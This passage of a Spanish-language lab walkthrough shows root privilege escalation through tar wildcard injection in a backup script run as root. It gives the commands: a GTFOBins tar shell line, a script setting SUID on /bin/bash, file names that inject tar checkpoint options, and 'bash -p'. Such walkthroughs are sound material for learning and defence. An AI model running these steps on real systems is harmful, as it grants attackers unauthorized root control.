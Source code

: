 ```bash

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```


- Podemos ver que en una linea ejecuta el comando `"tar"` seguido del comodín o wildcard `"*"` apuntando a todo el contenido que hay dentro del directorio /home/server-management/Documents/.

- Podemos aprovecharnos de este comodín para que el comando tar ejecute lo que nosotros queramos, si buscamos en gtfobins maneras de obtener una shell con tar vemos lo siguiente [tar | GTFOBins](https://gtfobins.github.io/gtfobins/tar/#shell)

```bash
$tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Entonces, ya que se está haciendo uso del comodín `"*"` en el directorio anteriormente mencionado, lo que haremos es crear en ese directorio archivos con el nombre de las flags que necesita el comando tar para que, en este caso, ejecute un archivo llamado `"pwned"` el cual tendrá como contenido un comando que otorgará permisos SUID a la bash:

```bash
$nano pwned
```

```js
#!/bin/bash
chmod u+s /bin/bash
```


```bash
$touch -- --checkpoint=1 
$touch -- --checkpoint-action=exec='bash pwned'
```

- Y ahora simplemente esperaremos a que la script `"backupsrv.sh"` se ejecute como root y el comando tar efectúe lo que nosotros hemos inyectado y que la bash obtenga permisos SUID:

```bash
$watch ls -l /bin/bash
```

```js
Every 2.0s: ls -l /bin/bash                                                                                                                                 shuriken: Tue Mar 14 17:56:12 2023

-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```

- Al otorgarse los permisos `SUID` lo que resta por hacer es ejecutar la bash con privilegios y seremos root:

```bash
$bash -p
```

